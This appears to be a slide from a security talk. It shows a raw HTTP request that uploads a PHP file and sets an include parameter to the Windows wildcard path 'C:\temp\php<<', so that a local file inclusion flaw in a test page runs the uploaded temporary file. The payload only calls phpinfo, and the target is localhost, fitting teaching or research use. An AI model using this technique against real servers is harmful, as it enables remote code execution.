

# ON STEROIDS
POST /lfitest/lfi.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Type: multipart/form-data; boundary=---------------------------1475782385918929021760237462
Content-Length: 364

-----------------------------1475782385918929021760237462
Content-Disposition: form-data; name="file1"; filename="test.php"
Content-Type: application/x-httpd-php

<?php phpinfo(); ?>
-----------------------------1475782385918929021760237462
Content-Disposition: form-data; name="page"

C:\temp\php<<
-----------------------------1475782385918929021760237462--